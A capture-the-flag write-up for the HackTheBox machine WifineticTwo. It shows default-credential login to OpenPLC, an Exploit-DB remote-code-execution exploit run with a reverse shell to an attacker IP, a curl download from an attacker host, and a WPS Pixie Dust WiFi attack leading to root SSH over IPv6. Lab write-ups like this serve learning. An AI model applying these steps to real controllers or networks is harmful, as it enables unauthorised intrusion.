

# HackTheBox - WifineticTwo


<br>
<br>

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
- [Webserver](#Webserver)
    - [Default Credentials](#Default-Credentials)
    - [Exploit](#Exploit)
    - [Inspect Exploit](#Inspect-Exploit)
- [Privilege Escalation](#Privilege-Escalation)
    - [Shell Stabilization](#Shell-Stabilization)
    - [System Enumeration](#System-Enumeration)
    - [Install Tools](#Install-Tools)
    - [Attack WiFi](#Attack-WiFi)
    - [Associate with Wifi](#Associate-with-Wifi)
    - [IPv6 Recon](#IPv6-Recon)
    - [Login SSH via IPv6](#Login-SSH-via-IPv6)
- [Conclusion](#Conclusion)


<br>
<br>

## Enumeration

### Portscan

It starts with the usual port scan.

__Command:__ `nmap -p- -T4 -sV <IP>`


We have an open SSH server and a web server on port 8080.

Let's take a look at what is on the web server.

<br>

## Webserver


We are redirected to `/login` and see a login portal to __OpenPLC__.

<br>

### Default Credentials

I first tried a few very simple password combinations manually.

Then I looked up for default credentials online and `openplc:openplc` gave me access.



<br>

### Exploit

Now I looked online for exploits for the application and quickly found what I was looking for: [Exploit-DB](https://www.exploit-db.com/exploits/49803)

__Authenticated Remote Code Execution__ sounded good, but the exploit did not work.

I could not see a reverse shell on my listener.

Now I tried to establish a reverse shell manually under `/hardware` using inserted C code, but this failed always.

<br>

### Inspect Exploit

So I wanted to look at how the exploit works in more detail.

It was helpful to proxy it through Burp to see exactly what it was trying to do.

I ran the exploit through Burp as follows:

```
http_proxy=http://127.0.0.1:8080 python3 49803.py -u http://<IP_Machine>:8080 -l openplc -p openplc -i <IP_ATTACKER> -r 9999
```


Now I could better understand what exactly the exploit does.

I uploaded the first code from the first POST-Request in the __Programs__ tab.


And under __Hardware__ I now uploaded the C-Reverse shell code.


Now I pressed __Start PLC__ and it finally worked!

I got a reverse shell as __root__ and got the first flag.


<br>
<br>

## Privelege Escalation

The Privelege Escalation didn't go so quickly and I was a bit stuck on some points.

However, this was also the most instructive and interesting part of the box in my opinion.

<br>

### Shell Stabilization

It was a bit annoying that I had to reset the box when I lost the shell.

That's why it was advantageous to stabilize the shell with a little trick.

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. __CTRL+Z__
3. `stty raw -echo; fg`

<br>

### System Enumeration

Since I was already a __root__ user, I first thought that I was dealing with some kind of container breakout or something similar.

But a look at the name of the box and a look at the network interfaces tells us that we are probably dealing with WiFi hacking.

__Command:__ `ifconfig`


__Command:__ `iwconfig`


And with `iwlist` I scanned for networks.

__Command:__ `iwlist wlan0 scan`


From the network interface `wlan0` there is another network called `plcrouter`.

If we are not dealing with a container breakout here, it is likely that we have to compromise this WLAN.

<br>

### Install Tools

Since I was root user, I should be able to install other useful tools.

But how do we do that if the box has no internet?

1. On Attacker Machine: `apt download tcpdump`
2. On Attacker Machine: `python3 -m http.server 8080`
3. On Target Machine: `curl http://<ATTACKER_IP>:8080/tcpdump.deb -o tcpdump.deb`
4. On Target Machine: `dpkg -i tcpdump.deb`

Well, this also had to be done with all the dependencies.

It was a bit of a pain, but at least it worked and gave me new possibilities.

<br>
<br>

### Attack WiFi

Here I was a bit stuck.

I tried to sniff packages using `tcpdump` and installed other tools like `wash` and `reaver`.

Now I wanted to try different WPS attacks.

Reaver was always stuck somehow and I use another tool called: [Oneshot-C](https://github.com/nikita-yfh/OneShot-C).

I downloaded the tool to the machine and compiled it using __GCC__.


And hoooray it worked and I got a WPS PIN and the cracked password!

For this writeup I just go through the box a second time and the first time I attacked the WiFi specifically with the `-K` argument on a __Pixie Dust__ attack.

And I'm even associated with the network right away too.


<br>

### Associate with Wifi

For the sake of completeness, I would like to note here how I associated with the Wifi on CLI.

1. Create Config: `wpa_passphrase plcrouter '<PSK>' > wpa_supplicant.conf`
2. Connect: `wpa_supplicant -D wext,nl80211 -i wlan0 -c > output.txt 2>&1 &`
3. Check: `iw wlan0 link`

<br>

### IPv6 Recon


This point was a bit frustrating.

I was now connected to the new network but couldn't get an IPv4 address and tried a few times with `dhclient` to get one, but ended up losing the shell and having to reset the box and my instance.

Well, but we have an IPv6 address, maybe we don't need IPv4!

The most helpful command on this one was probably the following:

```bash
ip -6 neigh
```

With this command we can look for other hosts using [Neighbor Discovery Protocol](https://en.wikipedia.org/wiki/Neighbor_Discovery_Protocol).


Great, we have now found the IPv6 address of our router.

Let's ping it using `ping6` as a test.


<br>

### Login SSH via IPv6

I now logged into ssh as follows...

```
root@fe80::ff:fe00:100%wlan0
```


...and took the final flag.


<br>
<br>

## Conclusion

In conclusion, I would like to say that this was a really educational box for me with a very interesting setup.
In preparation for this currently seasonal box, I hacked the predecessor __Wifinetic__.

A few skills that were learned and refreshed with this box:

- Analyze exploit scripts with Burp
- various WLAN things
- IPv6 recon
- WPS Pixie Dust
- install tools without internet but root

